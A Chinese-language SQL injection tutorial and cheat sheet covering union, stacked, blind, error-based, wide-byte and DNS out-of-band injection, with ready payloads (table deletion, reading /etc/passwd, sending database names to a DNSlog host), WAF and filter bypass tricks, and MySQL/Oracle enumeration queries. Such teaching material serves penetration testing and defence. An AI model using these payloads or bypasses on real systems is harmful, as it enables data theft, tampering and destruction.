

# 渗透思路-SQL注入

## sql注入介绍

## 一、分类

### （一）根据输入参数分为：

- 数字型注入
- 字符型注入

### （二）根据注入技巧分为：

- 联合注入
- 盲注
- 堆叠注入
- 报错注入
- 二次注入
- 宽字节注入

### （三）根据提交类型分为：

- GET 注入
- POST 注入
- COOKIE 注入
- HTTP 头部注入

### （四）根据服务器返回响应分为：

#### 1、有回显

- 联合查询注入
- 堆叠注入

#### 2、无回显

- 报错注入
- 布尔注入
- 延时注入


## 二、注入技巧

### （一）联合注入

联合查询注入是sql注入最常规的注入方法。

攻击者利用SQL的UNION关键字将恶意查询语句与正常查询语句合并，达到获取敏感信息的目的。这种注入方式在目标页面显示查询结果时尤其有效，攻击者可以通过联合查询将数据库中的敏感数据“联合”到页面输出中。

UNION关键字用于将两个或多个SELECT查询的结果合并在一起。联合查询注入的目标是在原有查询的结果上追加一个攻击者构造的查询，从而将敏感数据（如数据库用户名、表名、字段名等）展示到页面上。

UNION 语法：用于将多个select语句的结果组合起来，每条select语句必须拥有相同的列、相同数量的列表达式、相同的数据类型，并且出现的次序要一致，长度不一定相同。（这也是和下述堆叠注入的区别）

```sql
# 假设原始的SQL查询语句为：
SELECT name, age FROM users WHERE id = '1';

# 如果用户输入1 UNION SELECT username, password FROM admin--，SQL语句将变成：
SELECT name, age FROM users WHERE id = '1' UNION SELECT username, password FROM admin;
```

### （二）堆叠注入

攻击者通过在输入中添加多个SQL语句，以分号（;）分隔来执行多条独立的SQL语句。这种注入方式依赖于数据库是否支持多条语句的堆叠执行。堆叠注入的威胁较大，因为攻击者可以通过添加额外的SQL语句实现数据操作、修改甚至删除表格等恶意行为。

通常，在SQL查询语句中，每个查询执行完后会返回执行结果。如果数据库支持堆叠查询，当多条查询语句被组合成一个请求并执行时，数据库会逐条解析并运行。堆叠注入的目标是通过添加多条语句，让数据库依次执行，以便完成攻击者的需求。

第二条语句不必像联合查询那样要求类型一致，甚至能使用 “update”语句修改数据表。

```sql
# 假设原始的SQL查询为：
SELECT name, age FROM users WHERE id = '1';

# 如果攻击者输入1; DROP TABLE users--，则SQL语句会变成：
SELECT name, age FROM users WHERE id = '1'; DROP TABLE users;


# 查询数据
1; select if(substr(user(),1,1)=‘r’,sleep(3),1)%23
# 插入数据
1; INSERT INTO users (username, password) VALUES ('attacker', 'maliciouspassword')--
# 修改数据
1; UPDATE users SET password = 'newpassword' WHERE username = 'admin'--
```

### （三）宽字节注入

是一种利用字符编码漏洞的SQL注入攻击，通常针对使用GBK、Big5等多字节字符集的数据库。这类编码中，某些字符由两个字节组成，因此攻击者可以利用这种编码特性将原本的特殊字符（如'或\）绕过过滤器进行注入，从而实现SQL注入。

在使用多字节编码的数据库中（如GBK、Big5等），部分字符是双字节组成。当数据库在处理输入时，如果遇到一个反斜杠（\），一般会视作转义符，防止后续的单引号或其他特殊字符被解析。但在宽字节编码中，攻击者可以将反斜杠与某个字符组合为一个双字节字符，从而绕过转义，导致注入。

例如：

- 在GBK编码下，%df（一个字节）和\组合，可以解析成一个有效的宽字节字符。

- 如果原本输入了\和'，但在宽字节编码中被解析成一个双字节字符，就可以绕过转义，达到注入的目的。

```sql
# 假设原始查询如下：
SELECT * FROM users WHERE username = '$username';

# 用户输入为：
admin\'

# 在安全过滤中，可能会将\'作为转义字符来处理，以避免注入。然而，如果系统采用的是GBK编码，攻击者可以通过输 入admin%df'，使得%df与\组合成一个双字节字符，而系统可能无法正确识别出单引号的作用，从而将'作为SQL语句的一部分。

# 这时查询语句会被解析为：
SELECT * FROM users WHERE username = 'admin\'' OR '1'='1';
```

### （四）二次注入

是一种间接的SQL注入方式，攻击者并不是直接在输入点注入恶意SQL语句，而是将恶意的代码片段存储到数据库或系统的其他位置。当系统的其他功能或模块处理或查询这些存储的数据时，注入攻击才被触发并执行。这种方式通常更隐蔽，因为恶意输入和注入执行并不在同一流程中。

在二次注入中，攻击者的恶意代码会先被存储到数据库字段中。虽然在最初的存储过程中，恶意数据没有触发SQL注入，但当系统的其他功能（例如后台管理页面或报告生成模块）再次调用该数据并插入到SQL查询时，恶意代码可能会被解释为SQL命令，从而造成注入。

```sql
# 攻击者注册用户名为：
admin'#

# 登录成功后修改密码
UPDATE users SET PASSWORD='1314' where username='admin'#' and password='123'

# 变成了
UPDATE users SET PASSWORD='1314' where username='admin'
```

### （五）报错注入

错误型SQL注入是一种常见的SQL注入攻击方式。在这种攻击中，攻击者利用应用程序的错误信息来获取有关数据库结构和内容的信息。当应用程序在数据库查询出错时，如果错误信息直接显示在用户界面上，那么攻击者就可以通过这些信息来更有效地进行SQL注入攻击。

```sql
#	1.利用函数报错：一些数据库函数在执行失败时会返回详细的错误信息，攻击者可以通过这些函数来触发错误。例如，在MySQL中，extractvalue()、updatexml()等函数常用于报错注入。
SELECT * FROM users WHERE id = 1 AND extractvalue(1, concat(0x7e, (SELECT database()), 0x7e));

# 2.利用类型转换报错：有些数据库会在类型转换失败时抛出错误，攻击者可以利用这类报错来探测数据。例如：
SELECT * FROM users WHERE id = 1 AND (SELECT count(*) FROM information_schema.tables) = 'a';

# 3.触发计算错误：在SQL语句中利用除零或其他非法计算来触发错误信息，例如：
SELECT * FROM users WHERE id = 1 AND 1/(SELECT count(*) FROM information_schema.tables) = 0;

# 页面显示
XAPTH syntax error '~pikachu~'
```

### （六）布尔注入

主要用于目标系统不直接返回查询结果、错误信息，或系统将查询的输出隐藏，但依然允许注入攻击。攻击者通过向数据库发送特定的布尔表达式，根据页面响应的变化，逐步推测出数据库的信息。

在布尔盲注中，攻击者会构造条件判断语句，并通过判断页面返回的结果是否发生变化，来确认条件是否为真或假。即使页面不显示查询结果，页面响应的不同状态也会告诉攻击者注入是否成功，从而可以逐字符地猜出数据库中的内容。

```sql
# 假设原始的SQL查询为：
SELECT name FROM users WHERE id = 1;

# 攻击者可以构造布尔盲注查询，通过逐步验证条件是否成立来提取信息。例如，输入1 AND 1=1--和1 AND 1=2--：
	•	如果输入1 AND 1=1--，页面正常显示数据，因为条件为真；
	•	如果输入1 AND 1=2--，页面无变化或显示异常，因为条件为假。

# 逐字符猜测信息：布尔盲注一般是通过逐字符猜测字段或表内容。
id=1 AND substring(database(), 1, 1) = 'a'--

# 二分法优化字符猜测：为了加速查询，可以使用ASCII值的二分法。例如，猜测数据库名称第一个字符的ASCII值是否大于100：
id=1 AND ascii(substring(database(), 1, 1)) > 100--
```

### （七）延时注入

主要用于目标系统不直接返回查询结果，也没有明显的响应差异，且错误信息也被屏蔽。延时注入通过引入延迟（延时函数）来判断查询的结果是否为真或假，从而逐步获取数据库的信息。

在延时注入中，攻击者通过构造查询语句，使数据库在满足某些条件时执行延时函数，从而增加请求的响应时间。攻击者可以通过观察页面响应的延迟来判断注入是否成功。如果页面响应出现明显延迟，表明条件为真，否则为假。基于这一逻辑，攻击者可以逐步推测出数据库内容。

```sql
# 假设原始SQL查询为：
SELECT name FROM users WHERE id = 1;
# 攻击者可能会使用以下输入：
1 AND IF(1=1, SLEEP(5), 0)--
# 如果数据库执行此语句并延迟5秒返回，表明条件为真；如果没有延迟，则条件为假。

# 逐字符猜测数据库名称：例如，判断数据库名称的第一个字符是否为a：
1 AND IF(substr(database(), 1, 1) = 'a', SLEEP(5), 0)--
# 二分法优化字符猜测：通过二分法可以更快速地猜出字符的ASCII值。
1 AND IF(ascii(substr(database(), 1, 1)) > 100, SLEEP(5), 0)--
```

### （八）DNSlog盲注

DNSlog盲住其实属于带外攻击（Out Of Band），什么是带外攻击？

很多场景下，无法看到攻击的回显，但是攻击行为确实生效了，通过[服务器](https://cloud.tencent.com/product/cvm/?from_column=20065&from=20065)以外的其它方式提取数据，包括不限于 HTTP(S) 请求、DNS请求、文件系统、电子邮件等。

DNSlog盲住是一种利用DNS请求来进行信息提取的SQL注入攻击方法，主要用于系统不回显查询结果，也不提供明显响应差异的场景。在这种情况下，攻击者通过让目标服务器发送DNS请求到自己的服务器，从而“回显”信息。这种方法广泛应用于SQL注入、命令注入、SSRF（服务端请求伪造）等无法直接获得响应的注入类型中。

DNSlog盲注的核心在于，攻击者构造特殊的DNS查询，将期望获得的数据库信息以子域名形式嵌入其中。当查询执行后，目标服务器会向攻击者控制的DNS服务器发送请求，以此传递数据库信息。

```
流程：
  1.	攻击者搭建一个DNSlog平台（例如dnslog.cn，或者攻击者自建DNS服务器）。
	2.	在SQL注入点构造含有DNS查询的SQL语句，并让目标服务器将查询结果通过DNS请求发送给攻击者的服务器。
	3.	攻击者在自己的DNSlog平台上接收到带有敏感信息的DNS请求，提取信息。
```

```sql
# 使用LOAD_FILE()和INTO OUTFILE结合，通过向外部服务器请求文件。
select load_file(concat('\\\\',(select database()),'.7dxfaj.ceye.io\\abc'))
```


## 三、数据库识别

### （一）通过报错信息识别数据库

#### 1、MySql

```none
You have an error in your SQL syntax; check the manualthat corresponds to your MySQL server version for theright syntax to use near ''' at line 1 
```

#### 2、Oracle

```none
ORA-00933: SQL command not properly ended 
```

#### 3、MS SQL Server

```none
Microsoft SQL Native Client error ‘80040e14’Unclosed quotation mark after the character string 
```

#### 4、PostgreSQL

```none
Query failed: ERROR: syntax error at or near 
```

### （二）利用数据库语句推断

根据数据库连接字符串方式的不同进行识别 如我们查询字符串kinght得到了一个结果，可以在请求中提交特殊的值，测试用各种方法连接，以生成kinght字符串 如过查询结果相同，就可以确定是哪一种数据库

```none
Oracle:    'kin'||'ght'
MS-SQL:    'kin'+'ght'
MySQL:     'kin' 'ght'
PostgreSQL：'kin' || 'ght'
```

如果注入数字数据，可以使用下面的攻击语句来识别字符串。 每个语句在其对应的数据库中求值结果为0，在其他数据库中则会报错。

```none
Oracle:    BITAND(1,1)-BITAND(1,1)
MS-SQL:    @@PACK_RECEIVED-@@PACK_RECEIVED
MySQL:     CONNECTION_ID()-CONNECTION_ID()
```


## 四、常用函数

### （一）截断函数

#### 1、`left()`函数

用于从一个字符串字段中获取其左侧的一定数量的字符。

```sql
left(string, length)
  第一个参数：是列名或字符串常量，
	第二个参数：是你想要提取的字符数量。
	
SELECT COUNT(*),concat(left(user(),1),floor(RAND(0)*2)) as x from users GROUP BY x
```

#### 2、`right()`函数

用于从一个字符串字段中获取其右侧的一定数量的字符。

```sql
right(string, length)
  第一个参数：是列名或字符串常量，
	第二个参数：是你想要提取的字符数量。
	
SELECT COUNT(*),concat(right(user(),1),floor(RAND(0)*2)) as x from users GROUP BY x;
```

#### 3、`mid()`函数

用于从一个字符串中提取子字符串。

```sql
MID(string, start, length)
  第一个参数：要从中提取的字符串 string
  第二个参数：开始位置 start
  第三个参数：以及子字符串的长度 length
  
SELECT COUNT(*), concat(MID('Hello', 1, 1), floor(RAND(0)*2)) as x FROM users GROUP BY x;
```

#### 4、`substr()`函数

`SUBSTR()`函数和`MID()`函数作用类似，都是用来从一个字符串中提取一个子字符串。`SUBSTR()`函数接受两个或三个参数。

```sql
SUBSTR(string, start_position, length)
  第一个参数：是原始字符串。 string
  第二个参数：是开始位置（从1开始计数）。
  第三个参数：（可选）是要提取的字符数。
  
SELECT COUNT(*), CONCAT(SUBSTR('Hello', 1, 5), FLOOR(RAND(0)*2)) AS x FROM users GROUP BY x;
```

#### 5、`substring()`函数

`SUBSTRING()` 是一种字符串函数，用于从一个字符串中提取子字符串。它通常用于 SQL 查询中，用于操作和提取文本数据。

```sql
SUBSTRING(str, start, length)
  第一个参数 str：要从中提取子字符串的原始字符串。
  第二个参数 start：子字符串的起始位置（索引），从 1 开始计数。
  第三个参数 length：要提取的子字符串的长度。

SUBSTRING() 函数会返回原始字符串中从 start 位置开始的长度为 length 的子字符串。如果不指定 length，则将提取从 start 位置到原始字符串的末尾的所有字符。
```

### （二）条件函数

#### 1、`length()`函数

用于计算字符串的字节长度。

```
LENGTH(string);
```

#### 2、`ascii()`函数

用于返回字符串中第一个字符的 ASCII 码值

```sql
ASCII(string);
```

#### 3、`if()`函数

判断语句，如果第一个语句正确，就执行第二个语句，如果错误，就执行第三个语句

```sql
IF(condition, true_result, false_result)
	第一个参数 condition：判断条件，结果为 TRUE 或 FALSE。
	第二个参数 true_result：当条件为 TRUE 时返回的值。
  第三个参数 false_result：当条件为 FALSE 时返回的值。
  
SELECT IF(1=1, 'True', 'False');    -- 输出：True
```

### （三）报错注入

#### 1、`extractvalue()`函数

**功能**：这是一个XML处理函数，用于从XML数据中提取值。通过构造不合法的XML路径，extractvalue()可以触发

报错，返回数据库中的敏感信息。

**语法**：` extractValue(xml_document, xpath_string);`

- XML_document是String格式，为XML文档对象的名称，

- XPath_string (Xpath格式的字符串)；

Xpath定位必须是有效的，否则则会发生错误；所以可以在这个位置植入表达式，做执行后报错

**注意**：一次返回值最大为32位,当数据库名大于32,需要结合其他方式使用（可以使用substr())；

```sql
1' or extractvalue(1,concat(1,(select database())))#

# 页面显示
XAPTH syntax error 'pikachu'
```

#### 2、`updatexml()`函数

**功能**：这是另一个XML处理函数，用于更新XML文档中的值。与extractvalue()类似，通过传入非法的路径或格式，也会触发报错。

**语法**：`UPDATEXML (xml_document, XPathstring, new_value)`

- xml_document，文档名称。

- XPathstring (Xpath格式的字符串)，做内容定位。

- new_value，String格式，替换查找到的符合条件的值。

 **注意**：一次返回值最大为32位,当数据库名大于32,需要结合其他方式使用（可以使用substr())；

 第二个参数应该为合法的xpath路径，否则会在引发报错的同时将传入的参数进行输出

```sql
1' or updatexml(1,concat(0x7e,(select database()),0x7e),1)#

# 页面显示
XAPTH syntax error '~pikachu~'
```

#### 3、`floor()`函数

**功能**：floor()函数用于返回一个数的向下取整值。利用这个函数，可以制造出一个数学错误（如除零错误）。

主要报错原因为：count()+rand()+group_by()导致主键重复。

因为floor(rand(0)*2)的重复性，导致group by语句出错。group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中更新临时表的数据；如果key不在临时表中，则在临时表中插入key所在行的数据。

```sql
1'union select 1,count(*) from information_schema.tables group by concat(0x7e,database(),0x7e,floor(rand(0)*2))#

# 页面显示
Duplicate entry '~pikachu~1' for key" 


SELECT 1/(SELECT count(*) FROM information_schema.tables WHERE table_schema = database());
#解释：在这个例子中，count(*)用于统计当前数据库的表数量，如果表数量为零，将触发除零错误，从而导致数据库报错返回表信息。
```

#### 4、`exp()`函数

**功能**：是计算自然对数底数 e 的幂次（即 e^{x}）。

当传递一个大于709的值时，函数exp()就会引起一个溢出错误。

SQL语法中，存在一个取反符号`~`,它会对每一个二进制位进行取反。也就是说，如果某个位是1，它就会变成0；如果是0，就会变成1。

```sql
SELECT EXP(999999999999999999);  -- 超大数值，触发错误
# ERROR 1690 (22003): DOUBLE value is out of range in 'exp(999999999999999999)'


select exp(~(select * from(select version())x));

# 页面显示
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '5.5.29' from dual)))'

```

### （四）时间延迟

#### 1、`sleep()`函数

sleep(duration) 这个函数的作用就是休眠，参数是休眠的时长，以秒为单位，也可以是小数。

```sql
if (ascii(subtr(databse(),1,1))>'a',1,sleep(5))#

# 检测数据库名的第一个字符的ascii和a比较，如果浏览器直接显示，说明比a大，如果浏览器5s后才显示，说明比a小
```

#### 2、`benchmark()`函数

重复执行指令

**语法**：`benchmark(count,expr)`

- count ： 必要参数，重复的次数。
- expr : 必要参数，执行的语句。

```sql
select Alt from vorname where Vorname='Lina' and benchmark(10000000,sha(1));
Empty set (2.72 sec)
```


## 五、绕过方法

### （一）常规绕过

#### 1、大小写绕过

一般来说，只要网站考虑了防御机制，现在的设计者是不会忘记注意大小写的。但我们还是把绕过思路从简单到复杂的讲述出来，大小写绕过是最简单的一种绕过方法，它成功的前提是网站防御规则中只匹配了字母小写的攻击语句特征。如`select`可能会被规则发现，`SeLeCt`则不会

```none
mbigfish.com/index.php?page_id=1' and 1=2 uNIoN sELecT 1,2,3,4#
```

#### 2、双写绕过

在某些网站，会对用户提交的一段字符进行匹配，对其认为危险的字符删除，同时放过余下其认为安全的字符。 例如，用户输入`1' and 1=2 union select 1,2,3,4#`，经过网站的过滤机制，服务器实际接收到的则是`1' and 1=2 1,2,3,4#` 此时可以双写绕过：

```none
/index.php?page_id=1' UNIunionON SELselectECT 1,2,3,4# 
```

经过网站过滤机制，`UNIunionON SELselectECT`实际变成了`UNION SELECT`。但要注意，这只适用于网站防御机制只匹配一次、过滤一次的情况。如果网站正则具有循环匹配，循环过滤直至匹配不到的机制，那么这种绕过方法就不再适用了

#### 3、编码绕过

如果网站防御机制未考虑过各类编码情况，那么将攻击语句编码后再发送也是一种很好的方法

##### 3.1、url编码绕过

通常来说，在浏览器输入URL时，浏览器会对一些字符进行URL 编码如，空格变为%20、单引号%27、左括号%28、右括号%29。

而服务器收到后会对其进行解码。如果网站具备防御机制，则会对解码后的内容进行规则匹配。

然而一些程序在执行了过滤之后还会执行一次不必要的解码， 比如我们输入带有url编码的字符串： `1%2527%20and%201%253d1%23`,这条字符在会被解码为：`1%27 and 1%3d1#`，其中没有`'`和`=`，假设这样就不会触发某些防御规则，然而当waf放过这串字符后，网站程序又会执行一次不必要的解码，再次解码后文本变成如此：`1' and 1=1#`，这一条将被数据库执行

##### 3.2、十六进制编码绕过

主要用于where语句后，如：

```none
1' and 1=2 union select 1,table_name from information_schema.tables where table_schema= 'dvwa'#
1' and 1=2 union select 1,table_name from information_schema.tables where table_schema= 0x64767761#

1 and 1=2 union select 1,load_file('/etc/passwd');#
1 and 1=2 union select 1,load_file(0x2F6574632F706173737764);#
```

##### 3.3、char()函数

利用`char()`函数将`select`的ASCII码转换为`select`字符串，接着利用`concat()`函数进行拼接得到`select`查询语句，从而绕过过滤。

或者直接用`concat()`函数拼接`select`来绕过

```none
index.php?id=-1';SET @sqli=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE hacker from @sqli;EXECUTE hacker;#
```

#### 4、注释绕过

注释绕过针对空格的过滤

```none
1' and 1=2 union/**/select 1,2 #
```

### （二）关键词绕过

#### 1、空格

##### 1.1、注释代替空格

```sql
select * from tb1 where name='asd';
等价：
select/**/*/**/from/**/tb1/**/where/**/name='asd';
```

##### 1.2、括号代替空格

mysql中可用()来代替空格。可以用括号包裹非数据库关键字

```sql
select name from tb1 where name ='asd';
等价：
select(name)from(tb1)where(name)=('asd');
```

##### 1.3、引号代替空格

mysql中可用单引号或双引号来代替空格。

```sql
select name from tb1 where name ='asd' and 1=1;
等价：
select name from tb1 where name ='asd'and'1'='1';
```

##### 1.4、特殊字符代替空格

如下特殊字符可代替空格：

```sql
%09    水平定位符号%0a    换行符%0c    换页符%0d    回车%0b    垂直定位符号
```

#### 2、union\select

```sql
uNIoN sel<>ect # 程序过滤<>为空 脚本处理
uNi//on sele//ct # 程序过滤//为空
uNIoN /!%53eLEct/ # url 编码与内联注释
uNIoN se%0blect # 使用空格绕过
uNIoN sele%ct # 使用百分号绕过
uNIoN %53eLEct # 编码绕过
uNIoN sELecT 1,2 #大小写绕过
uNIoN all select 1,2 # ALL绕过
uNIoN DISTINCT select 1,2 # 去重复DISTINCT 绕过
null+UNION+SELECT+1,2 # 加号代替空格绕过
/!union//!select/1,2 # 内联注释绕过
/!50000union//!50000select/1,2 # 内联注释绕过
uNIoN//select/**/1,2 # 注释代替空格绕过
```

#### 3、引号

可通过注释、括号、内联注释代替引号。

字符串可写作0x十六进制。

```sql
select * from tb1 where name='asd';
等价
select * from tb1 where name=0x617364;
```

#### 4、等号

```sql
?id=1' or 1 like 1#可以绕过对 = > 等过滤
or '1' IN ('1234')#可以替代=
```

#### 5、逗号

在使用mid，substr，substring函数的时候，如果逗号被过滤，可以通过from x for y代替。

```sql
select mid(user(),1,2);                #从第一个字符开始截取2个
等价
select mid(user() from 1 for 2);    #从第一个字符开始截取2个
```

#### 6、注释符

```sql
测试中通常需要通过注释符屏蔽后面的语句，否则容易报错，但注释符被过滤了。
例如：select * from tb1 where id=$_GET[‘id’] limit 1; //limit1是我们想要屏蔽的语句。

1.通过;结束语句，如果系统不支持堆查询注入，那么后面语句不会执行，或者执行了也能屏蔽错误。
select * from tb1 where id=1; limit 1;

2.整数型注入不受影响
select * from tb1 where id=1 or 1=1 limit 1;

3.字符型注入,传入的参数前后被加上了引号，select * from tb1 where id='$_GET['id']' limit 1; 
这时候可以传入1' or '1'='1  ，再拼接上引号后就能完整。
select * from tb1 where id='1' or '1'='1' limit 1;
```

#### 7、where

```sql
逻辑绕过过滤代码 1 && (select user from users where user_id = 1) = 'admin'
绕过方式 1 && (select user from users limit 1) = 'admin'
```

#### 8、limit

```sql
逻辑绕过过滤代码 1 && (select user from users limit 1) = 'admin'
绕过方式 1 && (select user from users group by user_id having user_id = 1) = 'admin'#user_id聚合中user_id为1的user为admin
```

#### 9、select

```sql
逻辑绕过过滤代码 1 && (select substr(group_concat(user_id),1,1) user from users ) = 1
绕过方式 1 && substr(user,1,1) = 'a'
```

#### 10、hex

```sql
逻辑绕过过滤代码 1 && substr(user,1,1) = unhex(61)
绕过方式 1 && substr(user,1,1) = lower(conv(11,10,16)) #十进制的11转化为十六进制，并小写。
```

#### 11、substr

```none
逻辑绕过过滤代码 1 && substr(user,1,1) = lower(conv(11,10,16)) 
绕过方式 1 && lpad(user(),1,1) in 'r'
```

#### 12、and/or

```sql
#等价关键字，在很多时候，当关键字被过滤后，可通过与其等价的其他关键字来绕过。
and
假如：select * from tb1 where id=1 and 1=1
此时和and等价关键字有：
	like（1 like 1。like可跟通配符。）
	rlike（1 rlike 1 rlike可跟正则表达式。）
	regexp（1 regexp 1 regexp可跟正则表达式。）
	&（1 && 1 ，逻辑与）
	&&（1 & 1，按位与，任意数&0的值为0）
	与and的结果都是1.

or
假如：select * from tb1 where id=1 or 1=1;
此时等价or的关键字有：
	||    （逻辑或）
	|    （按位或）
	任意数|0的值为任意数
```

#### 13、order by

```sql
# 当 order by 被过滤时，可以使用 into 变量名进行代替。
select * from user where id=1 into @a,@b

select * from user where id=1 into @a,@b,@c
```


### （三）WAF绕过

#### 1、浮点数绕过

```sql
# 通过浮点数的形式从而绕过。
id=1 union select 
—> id=1.0union select 
—> id=1E0union select
```

#### 2、添加库名绕过

```sql
# 有些 waf 的拦截规则 并不会拦截[库名].[表名]这种模式。
select * from users
-> select * from test.users

```

#### 3、参数污染绕过

```sql
# 在 php 语言中 id=1&id=2 后面的值会自动覆盖前面的值，不同的语言有不同的特性。可以利用这点绕过一 些 waf 的拦截。以下是其他污染特性
id=1' union all select 1,database(),3 --+
id=id=1@id=0' union all select 1,database(),3  --+

```




#### 4、脏数据溢出绕过

```sql
# 数据太多超过waf检测范围，然后造成绕过,前面填垃圾数据后面填要注入的SQL语句，如果是GET传参，参数值超过GET所能运行的长度可能无法利用，所以最好是POST传参(前提是对方支持POST传参)
```


#### 5、pipline绕过

```sql
http协议是由tcp 协议封装而来，当浏览器发起一个 http 请求时，浏览器先和服务器建立起连接tcp连接，然后发http 数据包，其中包含了一个Connection字段，一般值为close，apache等容器根据这个字段决定是保持该tcp连接或断开。

当发送的内容太大，超过一个http包容量，需要分多次发送时，值会变成keep-alive，即本次发起的http请求所建立的tcp连接不断开，直到所发送内容结束Connection为close为止。

用burpsuite抓包提交复制整个包信息放在第一个包最后，有些waf会匹配第二个包的正属于正常参，不会对第一个包的参数进行检测，这样就可以绕过一些waf拦截。
```


#### 6、分块传输绕过

```sql
分块传输编码是只在HTTP协议1.1版本中提供的一种数据传送机制。

以往HTTP的应答中数据是整个一起发送的，并在应答头里Content-Length字段标识了数据的长度，以便客户端知道应答消息的结束。分块传输编码允许服务器在最后发送消息头字段。

例如在头中添加散列签名。对于压缩传输传输而言，可以一边压缩一边传输，将本该一次性传输的完整数据分块传输，从而绕过waf的检测。
```


#### 7、参数拆分绕过

```sql
配合多个参数的传参，将注入的内容拼接到同一条 SQL 语句中，可以将注入语句分割插入绕过waf拦截。
```


#### 8、GET/POST转换绕过

```sql
waf 在对危险字符进行检测的时候，分别为 post 请求和 get 请求设定了不同的匹配规则，请求被拦截，变 换请求方式有几率能绕过检测。
```


#### 9、白名单绕过

```sql
有些 WAF 会自带一些文件白名单，对于白名单 waf 不会拦截任何操作，比如白名单目录，白名单文件等等，所以可以利用这个特点，可以进行突破。
```


#### 10、花括号绕过

```sql
花括号，左边是注释的内容，这样的话可以过一些waf的拦截。
```


#### 11、反引号绕过

```sql
特殊符号反引号也能绕过waf
```


## 六、各类数据库注入语句

### （一）MySQL数据库

| **释义**      | **SQL语句**                                                  | **其他**              |
| :------------ | :----------------------------------------------------------- | :-------------------- |
| 当前数据库    | SELECT database()                                            | -                     |
| 所有数据库    | SELECT schema_name FROM information_schema.schemata          | #版本>5.0             |
| -             | SELECT distinct(db) FROM mysql.db                            | #管理员权限才可以执行 |
| 查询表名      | SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’ | -                     |
| 查询列名      | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’ | -                     |
| 获取版本      | SELECT @@version                                             | -                     |
| 当前用户      | SELECT user()                                                | -                     |
| -             | SELECT system_user()                                         | -                     |
| 用户权限      | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges | #用户权限             |
| -             | SELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges | #数据库权限           |
| -             | SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges | #字段的权限           |
| 列出DBA账户   | SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’     | -                     |
| 选择第N行     | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0    | #行从0开始编号        |
| -             | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1    | #行从0开始编号        |
| 选择第N个字符 | SELECT substr(‘abcd’, 3, 1)                                  | #返回c                |
| ASCII值-字符  | SELECT char(65)                                              | #返回A                |
| 字符-ASCII值  | SELECT ascii(‘A’)                                            | #返回65               |
| 字符串连接    | SELECT CONCAT(‘A’,‘B’)                                       | #返回AB               |
| -             | SELECT CONCAT(‘A’,‘B’,‘C’)                                   | #返回ABC              |
| 时间睡眠      | SELECT BENCHMARK(1000000,MD5(‘A’))                           | -                     |
| -             | SELECT SLEEP(5)                                              | #版本>= 5.0.12        |

### （二）Oracle数据库

| **释义**      | **SQL语句**                                                  | **其他**          |         |
| :------------ | :----------------------------------------------------------- | :---------------- | :------ |
| 当前数据库    | SELECT global_name FROM global_name                          | —                 |         |
| -             | SELECT name FROM v$database                                  | —                 |         |
| -             | SELECT instance_name FROM v$instance                         | —                 |         |
| -             | SELECT SYS.DATABASE_NAME FROM DUAL                           | —                 |         |
| 所有数据库    | SELECT DISTINCT owner FROM all_tables                        | —                 |         |
| 查询表名      | SELECT table_name FROM all_tables                            | —                 |         |
| -             | SELECT owner, table_name FROM all_tables                     | —                 |         |
| 查询列名      | SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ | —                 |         |
| -             | SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ and owner = ‘foo’ | —                 |         |
| 获取版本      | SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’     | —                 |         |
| -             | SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’        | —                 |         |
| -             | SELECT version FROM v$instance                               | —                 |         |
| 当前用户      | SELECT user FROM dual                                        | —                 |         |
| 用户权限      | SELECT * FROM session_privs                                  | #当前权限         |         |
| -             | SELECT * FROM dba_sys_privs WHERE grantee = ‘DBSNMP’         | #列出用户的权限   |         |
| 列出DBA账户   | SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’ | —                 |         |
| 选择第N行     | SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9 | #第九行           |         |
| 选择第N个字符 | SELECT substr(‘abcd’, 3, 1) FROM dual                        | #第3个字符c       |         |
